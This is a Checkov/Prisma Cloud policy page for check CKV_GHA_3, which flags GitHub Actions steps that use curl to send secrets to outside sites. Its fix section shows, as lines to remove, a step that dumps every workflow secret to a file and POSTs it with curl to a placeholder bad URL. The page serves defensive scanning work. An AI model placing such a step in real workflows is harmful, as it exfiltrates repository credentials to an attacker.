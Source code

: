 == GitHub Actions curl includes secrets


=== Policy Details 

[width=45%]
[cols="1,1"]
|=== 
|Prisma Cloud Policy ID 
| eee86014-e192-45fd-bcd4-a236421ae7fb

|Checkov Check ID 
| https://github.com/bridgecrewio/checkov/tree/master/checkov/github_actions/checks/job/SuspectCurlInScript.py[CKV_GHA_3]

|Severity
|LOW

|Subtype
|Build

|Frameworks
|GithubAction

|=== 

=== Description 
If a secret is present in a workflow and a bad actor can modify the GitHub Action, they can send the secret to a website they own via curl.

=== Fix - Buildtime


*GitHub Actions* 


Block code and remove code that attempts to exfiltrate secrets.
[,yaml]
----
run:  |
-         echo "${{ toJSON(secrets) }}" > .secrets
-         curl -X POST -s --data "@.secrets" &lt;BADURL > /dev/null
----
